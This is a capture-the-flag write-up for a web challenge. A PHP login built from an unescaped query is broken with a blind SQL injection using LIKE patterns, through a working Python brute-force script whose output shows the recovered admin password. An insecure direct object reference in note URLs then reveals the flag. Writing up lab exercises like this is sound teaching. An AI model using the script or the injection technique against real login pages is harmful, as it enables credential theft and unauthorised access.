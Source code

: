 # web2

For this challenge, we are given a website.  Opening the link takes us to this page:

![image](img/webpage.png)

Looks like we are presented with a login. We are also given the source code to this webpage, so maybe we can do something with that.

Looking through the source code, we see a comment mentioning a vulnerable piece of code:

```php
    // XXX: this is vuln to SQL injection!
    $query_str = "SELECT id, username, password FROM users WHERE username='$username';";
    echo '* <b>Query:</b> ' . htmlentities($query_str) . '<br>'
```

This piece of code is vulnerable to something known as a SQL injection.  With a specially crafted username, we can escape the `$username` and add on to the query with our own SQL code.  But what can we add onto the query in order login? 

The answer is the `LIKE` operator.  According to w3schools:
> The LIKE operator is used in a WHERE clause to search for a specified pattern in a column.
>
> There are two wildcards often used in conjunction with the LIKE operator:
>
> % - The percent sign represents zero, one, or multiple characters
> _ - The underscore represents a single character

So if we can make `username='$username'` evaluate to true, and then tack on a `and password like 'x%'`, and just iterate all possible characters for `x`, we can get the first character of the password for said username.  We can then repeat that process for every character until we get the full password.

After some trial and error, we can figure out that the username we want to steal from is `admin`.  and so the query we want to inject is `admin' and password like 'x%`

We can write a simple python script to automate this process:

```python
import requests
import string

url_val = "http://ctf-league.osusec.org:8080/login.php"
obj = {'password':'', 'username':''}
failed = "password is incorrect"
pwd = ''

while True:
    for i in string.printable:
        obj['username'] = "admin' and password like '" + pwd + i + "%"

        x = requests.post(url = url_val, data = obj, timeout=2.5)

        if(x.text.find(failed) > 0):
            pwd = pwd + i
            print(pwd)
            break

```

Running this script we get the password for admin:
```
$ python3 pwn.py
k
kl
kl6
kl62
kl62j
kl62jd
kl62jdi
kl62jdic
kl62jdicu
kl62jdicu3
kl62jdicu31
kl62jdicu31a
kl62jdicu31ad
kl62jdicu31ad%
```
The password is `kl62jdicu31ad`

After logging in, we are greeted with another page.  This one seems to be some sort of note maker:

![img](img/notes.png)

We are told to look into "Insecure direct object references", which is a type of access control vulnerability that happens in applications that use user supplied inpit directly.  

Opening a note, we can see how we could abuse that:

![img](img/note_6.png)

What if we directly modified the url to point us to a note that would otherwise be inaccesible?  Let's try setting it to `1`:

![img](img/note_1.png)

Next note contains the flag! Changing it to `2` and we get our flag:

![img](img/flag.png)

```
flag{r3m3mber_t0-g00gle_wh3n_f@cing_a_d1fficult-challenge!}
```
